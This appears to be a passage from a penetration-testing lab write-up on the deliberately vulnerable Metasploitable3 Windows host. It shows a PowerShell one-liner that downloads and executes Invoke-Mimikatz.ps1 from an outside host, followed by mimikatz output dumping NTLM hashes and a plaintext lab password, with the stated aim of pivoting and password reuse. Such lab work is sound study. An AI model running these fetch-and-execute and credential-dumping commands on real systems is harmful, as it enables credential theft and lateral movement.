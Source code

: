 ### Gathering NTLM Hashes and Passwords

After gaining `SYSTEM` level access to the host, I dump cached credentials from the SAM process so that I can use the NTLM hashes to pivot through networks and reuse passwords.

Note that we need `SYSTEM` level access to dump the NTLM hashes and passwords from the SAM process because without them, this is what happens: 

```none
PS C:\Windows\Temp\r0kit> whoami
nt authority\local service
PS C:\Windows\Temp\r0kit> iex(New-Object System.Net.WebClient).DownloadString("http://172.28.128.1:8000/Invoke-Mimikatz.ps1")

  .#####.   mimikatz 2.1.1 (x64) built on Sep 15 2017 17:58:17
 .## ^ ##.  "A La Vie, A L'Amour"
 ## / \ ##  /* * *
 ## \ / ##   Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 '## v ##'   http://blog.gentilkiwi.com/mimikatz             (oe.eo)
  '#####'                                     with 21 modules * * */

mimikatz(powershell) # privilege::debug
ERROR kuhl_m_privilege_simple ; RtlAdjustPrivilege (20) c0000061

mimikatz(powershell) # exit
Bye!
```

With `SYSTEM` level access, I was able to invoke `mimikatz` with the `nishang` post exploitation framework to gather the credentials of users that have previously logged into the system:

```none
PS C:\Windows\system32>whoami
nt authority\system
PS C:\Windows\system32>iex(New-Object System.Net.WebClient).DownloadString("http://172.28.128.1:8000/Invoke-Mimikatz.ps1")

  .#####.   mimikatz 2.1.1 (x64) built on Sep 15 2017 17:58:17
 .## ^ ##.  "A La Vie, A L'Amour"
 ## / \ ##  /* * *
 ## \ / ##   Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 '## v ##'   http://blog.gentilkiwi.com/mimikatz             (oe.eo)
  '#####'                                     with 21 modules * * */

mimikatz(powershell) # sekurlsa::logonpasswords

Authentication Id : 0 ; 689354 (00000000:000a84ca)
Session           : Interactive from 0
User Name         : boba_fett
Domain            : METASPLOITABLE3
Logon Server      : METASPLOITABLE3
Logon Time        : 9/1/2020 12:38:02 PM
SID               : S-1-5-21-13609554-1851907898-2084865544-1014
        msv :
         [00000003] Primary
         * Username : boba_fett
         * Domain   : METASPLOITABLE3
         * LM       : 89c23eda848454f62d7e56f026ce3b71
         * NTLM     : d60f9a4859da4feadaf160e97d200dc9
         * SHA1     : 92570ca437898c4456928679fac91dc523371d16
        tspkg :
         * Username : boba_fett
         * Domain   : METASPLOITABLE3
         * Password : mandalorian1
        wdigest :
         * Username : boba_fett
```